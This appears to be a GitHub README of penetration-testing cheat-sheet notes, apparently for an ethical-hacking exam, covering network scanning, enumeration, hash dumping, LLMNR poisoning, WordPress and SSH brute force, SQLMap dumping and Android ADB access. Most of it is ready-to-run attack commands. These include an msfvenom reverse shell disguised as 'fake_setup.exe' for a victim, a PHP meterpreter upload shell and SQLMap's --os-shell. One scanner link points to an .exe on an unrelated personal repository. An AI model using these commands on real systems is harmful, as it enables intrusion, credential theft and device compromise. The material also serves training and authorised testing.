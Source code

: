                                                                                                                            
# Reconnasiance/Footprinting
<details>
  <summary>Recon</summary>

* -r range , Scan Entire Network for ALive host using ARP
```console
:~$ netdiscover -r 192.168.29.1/24
```

* -f switch do not fragment, -l buffer size
```console
:~$ ping <host-ip> -f -l 1300
```
  * __`tracert`__ for windows cmd
```console
:~$ traceroute <host-ip>
```
* [Path Analyzer Pro](https://www.pathanalyzer.com/download.opp/) in traceroute tools, ensure icmp and smart is selected, stop on control is selected
* Start Metasploit Console
```console
:~# msfdb init && msfconsole
:~# msfdb status
```
* Nmap Scanning entire Network

```console
# Don’t ping=> -Pn, SYN scan=> -sS, Aggresive Scan=> -A, Normal_XML and Grepable format all at once=> -oA, Verbose=> -vv 

nmap -Pn -sS -A -oA -vv <Filename> 10.10.1.1/24
```
* Convert Nmap XML file to [HTML Report](https://nmap.org/book/output-formats-output-to-html.html/)
```console
xsltproc <nmap-output.xml> -o <nmap-output.html>
```
```console
# Scanning SMB Version for OS Detection using Metaspolit
use scanner/smb/smb_version
show options 
set RHOSTS 10.10.10.8-16 
set THREADS 100 
run
  
#Type hosts again and os_flavor will be visible
  hosts
```
</details>

# Scanning Network
<details>
  <summary>Scan Network</summary>

* -1 for ICMP ping scan, ICMP-echo request randomly (--rand-dest)
```console
:~$ hping3 -1 10.0.1.255 --rand-dest –I eth0 
```
* [Angry IP Scanner](https://angryip.org/download/#windows) of windows to Scan Entire Network
</details>
  
# ENUMERATION
<details>
  <summary>Enum</summary>
* Advanced IP Scanner (https://github.com/infovault-Ytube/test1/raw/main/ipscan25.exe) of windows
Specify IP range and start. Right click on alive hosts to perform actions, e.g. shutdown. Use Radmin for advanced features.

* [Hyena](https://www.systemtools.com/hyena/download.htm)
Expand local workstation to view Users, Services, User Rights, Scheduled Jobs 

* [NetBIOS Enumerator](http://nbtenum.sourceforge.net/)
Enter IP Range and click scan.

* NBT (NetBIOS over TCP/IP), which helps troubleshoot NetBIOS name resolution issues.
```console
nbtstat -A 204.224.150.3
```
* Accessing Shared Files
```console.
# List All Shared Resources
net view  <IP>

# Connect to Shared Resource
net use
net use \\10.10.10.1\e ""\user:""
net use \\10.10.10.1\e ""/user:""
```
* SNMP Enumeration
```shell
nmap -sU -p 161 10.10.1.2
nmap -sU -p 161 --script=snmp-brute 10.10.1.2

# Expoilt SNMP with Metasploit
msfdb init && msfconsole ↵
use auxilary/scanner/snmp/snmp_login ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
  
use auxilary/scanner/snmp/snmp_enum ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
```
* Enum4linux: Enumerating information from Windows and Samba systems
```console
enum4linux -A <Target_IP>
```
</details>
  
  # Vulnerability Analysis
<details>
  <summary>Vulerability</summary>
  
 * Nessus: Assest vulnerability scanner
 * Nikto: Web Server scanner
```console
nikto -h www.example.com tuning 1
  ```
  </details>
  
# System Hacking
<details>
  <summary> Sys password Hacking</summary>

```
# To Dump Windows SAM file hashes
pwDump7.exe> hashes.txt 
```
  > pwDump7.exe : To Dump Windows Hashes [PwDump7](https://www.tarasco.org/security/pwdump_7/pwdump7.zip)
  * [Ophcrack.exe](https://ophcrack.sourceforge.io/download.php?type=ophcrack) : To Crack SAM Hashes to obtain clear Password 
  * [rcrack_gui.exe](http://project-rainbowcrack.com/) : Use Raindow Table to crack hashes
  
  </details>

 
<details>
  <summary> Create A Reverse TCP Connection</summary>

```shell
# creates reverse TCP from windows  machine, send this file to victim machine via python-Webserver/shared resource
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attacker_IP> LPORT=444 -o fake_setup.exe  ↵

msfdb init && msfconsole ↵
use exploit/multi/handler ↵
set LHOST=<attacker-IP>  ↵
set LPORT=444 ↵
  run
```
</details>

# Steganography
<details>
<summary> Stego</summary>

#### Hide/unhide text in WhiteSpaces using [snow](http://www.darkside.com.au/snow/)

```shell
SNOW.EXE -C -p 1234 -m "Secret Message"  original.txt ciper.txt
 
# To unhide the hidden text
 
SNOW.EXE -C -p 1234  ciper.txt
```
  
### [OpenStego](https://github.com/syvaidya/openstego/releases) : Hide any data within a cover file like Images
<img src="https://www.openstego.com/image/screenshot/01.png" width="600" height="400" />
<img src="https://www.openstego.com/image/screenshot/02.png" width="600" height="400" />  
  
### [QuickStego](http://cybernescence.co.uk/software-products/QS12Setup.exe): Hide text in pictures without password
<img src="http://quickcrypto.com/content-images/QuickStego_12_Steganography_Software_Ex_sml.jpg" width="600" height="400" /> 
</details>

  
  
#  LLMNR/NBT-NS Poisoning
<details>
<summary> LLMNR/NBT</summary>

> [Responder](https://github.com/lgandx/Responder) : rogue authentication server to capture hashes
>
>> This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present [Step by Step](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
  
```shell
# In Parrot/Kali OS, 
responder -I eth0  ↵

# In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
# To crack that hash, use JohntheRipper
john SMB<filename>  ↵
  
```
  </details>
  
#  Website Hacking/Password Cracking
<details>
<summary>Website Cracking</summary>
> SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

> Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate U 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
  
  
```
### File Upload Vulnerability
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > file.php
  
msfdb init && msfconsole
use multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST=attacker-ip
set LPORT= attcker-port
run

# If incase, metaspolit not working use NetCat and shell code below

```
> [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) : Use the code, change IP & Port and use it with NetCat listener  
```console
nc -vnl -p 1234
```
  
### SQL Injection
> Login bypass with [' or 1=1 --](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) 
> [N-Stalker](https://www.nstalker.com/) : Select OWASP Policy => Scan Website for Vulnerabilites
 
> SQLMAP
  
```shell
#List databases, add cookie values
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
  OR
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  


# List Tables, add databse name
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
  
# List Columns of that table
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
  
#Dump all values of the table
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
  

sqlmap -u "http:domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --os-shell
 
```
* Some links [DVWA:Blind SQL with SQLMap](https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7), [DVWA - High Level with SQLMap](https://www.youtube.com/watch?v=IR1JsaSQLMc&ab_channel=Archidote)
  
  
  
</details>

<details>
<summary>Password Cracking</summary>

> Hydra : FTP, SSH, Telnet
  
```console
# SSH
hydra -l username -P passlist.txt 192.168.0.100 ssh
  
 # FTP
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100
 
# If the service isn't running on the default port, use -s
 hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100 -s 221
  
# TELNET
hydra -l admin -P passlist.txt -o test.txt 192.168.0.7 telnet

# Login form
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"  
  
```
  
</details>
  
# Cryptography
 <details>
 <summary>Cipering / Encrypting/ Hashes </summary>
   
 #### Hash
 
> Find/Decrypt Hash Online with [Hashes.com](https://hashes.com/en/decrypt/hash)
 
```shell
 # In Kali
 $hash-identifier  
   
 #Decrypt Hashes
 hashcat '5f4dcc3b5aa765d61d8327deb882cf99' /usr/share/wordlists/rockyou.txt
```
> Calculate Hash of text/File by [HashCalc](https://www.slavasoft.com/download.htm) in Windows🪟
 <img src="https://www.slavasoft.com/images/screenshots/hashcalc.png" />
 
> [MD5Calculator](https://www.bullzip.com/download/md5/md5calc(1.0.0.0).zip) in Windows🪟
 <img src="https://www.bullzip.com/products/md5/dialog.png" />

### CryptoForge 
> Encrypt data with Password and only be decoded with cryptoforge by giving password
 <img src="Cryptoforge.jpg" />   

### BCTextEncoder: Text Encode/Decode
   
<img src="https://www.jetico.com/file-downloads/web_help/bctextencoder/img/textEncode.png" />   

### VeraCrypt: Disk Encrypt/Decrypt
> [Step-By-Step-Tutotrial](https://www.veracrypt.fr/en/Beginner%27s%20Tutorial.html)

### CrypTool : Encode/Decode Text (File Extension is .hex)
* File → New → Enter Text → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Encrypt 
   
* File → Open → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Decrypt


   <img src="Crytool.jpg" />   

  </details> 

# Android Hacking
<details>
<summary>ADB</summary>

> [Live Demo of ADB](https://youtu.be/Hvreb4hjsig)

  ```shell
apt-get update
sudo apt-get install adb -y
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
  
  
  
# PhoneSploit tool 
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

Enter the Full Path of file to Download
sdcard/Download/secret.txt

  
 ```  
</details>
  
# Covert TCP
<details>
<summary Covert</summary>
> Covert_tcp (source code){covert_tcp.c}  
</details>
